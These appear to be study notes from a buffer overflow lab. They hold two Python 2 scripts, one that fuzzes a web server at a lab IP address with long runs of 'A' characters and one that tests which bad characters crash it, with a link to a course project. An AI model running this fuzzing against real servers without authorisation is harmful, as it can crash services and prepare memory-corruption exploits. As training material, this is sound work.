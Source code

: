 # Fuzzer

Quick Fuzzer

```text
import socket
s = socket.socket()

s.connect(("172.16.1.249", 80))

n = int( raw_input("Number of A's:"))

req = "GET " + "A" * n
req += " HTTP/1.1\r\n"
req += "Host: 172.16.1.249\r\n\r\n"

s.send(req)
print s.recv(1024)
```

Demo for testing bad characters individually \(crash indicates its valid / hanging indicates invalid character\)

```text
import socket
s = socket.socket()

s.connect(("172.16.1.249", 80))

n = int( raw_input( "Ascii code:") )

test = chr(n)

attack = test + "A" * (170 - len(test))
attack += "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"

req = "GET " +  attack
req += " HTTP/1.1\r\n"
req += "Host: 172.16.1.249\r\n\r\n"

s.send(req)
print s.recv(1024)
```

Reference:

[https://samsclass.info/127/proj/p10xbo.htm](https://samsclass.info/127/proj/p10xbo.htm)

